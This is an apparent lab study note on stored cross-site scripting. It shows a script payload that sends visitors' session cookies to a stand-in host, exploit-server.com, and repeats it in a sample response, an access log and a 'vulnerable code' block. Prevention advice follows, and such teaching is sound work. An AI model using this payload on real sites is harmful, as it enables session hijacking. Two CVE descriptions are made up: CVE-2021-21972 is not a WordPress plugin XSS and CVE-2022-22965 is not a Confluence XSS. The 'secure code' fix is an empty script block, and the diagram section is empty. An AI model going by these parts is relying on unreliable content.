

## Cross-Site Scripting (XSS) Vulnerability

### Background Theory

Cross-Site Scripting (XSS) is a type of security vulnerability typically found in web applications. It occurs when an attacker can inject malicious scripts into web pages viewed by other users. XSS vulnerabilities arise due to the lack of proper input validation and output encoding. There are three main types of XSS:

1. **Stored XSS**: Malicious scripts are permanently stored on the target servers, such as in a database, comment field, etc. Every user who views the stored information will execute the script.
2. **Reflected XSS**: Malicious scripts are reflected off a web server, often in response to the victim’s request. The attacker must trick the user into clicking a malicious link or visiting a specially crafted URL.
3. **DOM-based XSS**: This type of XSS occurs entirely within the browser and does not involve the server. The vulnerability arises from the way the DOM is manipulated by JavaScript.

### XSS Payload Injection

In the context of the given lecture, the XSS payload is designed to steal the session cookie of any user who visits a specific blog post. The payload is injected into the blog post and executed in the user's browser.

#### Example XSS Payload

```javascript
<script>
document.location = "http://exploit-server.com?cookie=" + document.cookie;
</script>
```

This payload uses JavaScript to redirect the user's browser to the exploit server, appending the user's session cookie to the URL. Here's a breakdown of the payload:

- `document.location`: This property represents the current URL of the document. By setting it to a new URL, the browser will navigate to that URL.
- `document.cookie`: This property contains the cookies associated with the current document. The payload appends these cookies to the URL sent to the exploit server.

### Real-World Examples

Recent real-world examples of XSS vulnerabilities include:

- **CVE-2021-21972**: A stored XSS vulnerability was found in the WordPress plugin "WP GDPR Compliance." Attackers could inject malicious scripts into comments, which would then be executed by other users.
- **CVE-2022-22965**: A reflected XSS vulnerability was discovered in the Atlassian Confluence application. Attackers could craft a malicious URL that, when visited, would execute arbitrary JavaScript in the user's browser.

### Complete HTTP Request and Response

When a user visits the blog post containing the XSS payload, the following HTTP request and response occur:

#### HTTP Request

```http
GET /blog-post HTTP/1.1
Host: vulnerable-website.com
Cookie: session=abc123
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Set-Cookie: session=abc123
Content-Length: 1024

<!DOCTYPE html>
<html>
<head>
    <title>Blog Post</title>
</head>
<body>
    <h1>Blog Post Title</h1>
    <div id="content">
        <script>
            document.location = "http://exploit-server.com?cookie=" + document.cookie;
        </script>
    </div>
</body>
</html>
```

### Exploit Server Access Logs

The exploit server receives the request and logs the session cookie:

#### Access Log Entry

```
192.168.1.1 - - [12/Oct/2023:12:34:56 +0000] "GET /?cookie=session=abc123 HTTP/1.1" 200 1234
```

### How to Prevent / Defend Against XSS

#### Detection

To detect XSS vulnerabilities, you can use automated tools like:

- **OWASP ZAP**: An open-source web application security scanner that can detect various types of vulnerabilities, including XSS.
- **Burp Suite**: A comprehensive toolkit for web application security testing, which includes features for detecting and exploiting XSS.

#### Prevention

1. **Input Validation**: Ensure that all user inputs are validated and sanitized before being used in the application.
2. **Output Encoding**: Encode all user inputs before displaying them in the HTML. Use libraries like `OWASP Java Encoder` or `DOMPurify` for JavaScript.
3. **Content Security Policy (CSP)**: Implement a strict CSP to limit the sources from which scripts can be loaded. This can help mitigate the impact of XSS attacks.

#### Secure Coding Fixes

##### Vulnerable Code

```html
<div id="content">
    <script>
        document.location = "http://exploit-server.com?cookie=" + document.cookie;
    </script>
</div>
```

##### Secure Code

```html
<div id="content">
    <!-- Sanitized user input -->
    <script>
        // No direct execution of user input
    </script>
</div>
```

#### Configuration Hardening

1. **Enable CSP**: Add the following header to your HTTP responses to enforce a strict CSP:

    ```http
    Content-Security-Policy: default-src 'self'; script-src 'self';
    ```

2. **Use HTTPOnly Cookies**: Set the `HttpOnly` flag on session cookies to prevent them from being accessed via JavaScript.

    ```http
    Set-Cookie: session=abc123; HttpOnly
    ```

### Mermaid Diagrams

#### XSS Attack Chain



### Hands-On Labs

For hands-on practice with XSS vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a series of interactive labs to learn about various web security vulnerabilities, including XSS.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

By thoroughly understanding and implementing these preventive measures, you can significantly reduce the risk of XSS vulnerabilities in your web applications.

---
<!-- nav -->
[[05-Authentication Vulnerabilities Offline Password Cracking|Authentication Vulnerabilities Offline Password Cracking]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/11-Lab 10 Offline password cracking/00-Overview|Overview]] | [[07-Detailed Explanation of the Example Provided|Detailed Explanation of the Example Provided]]
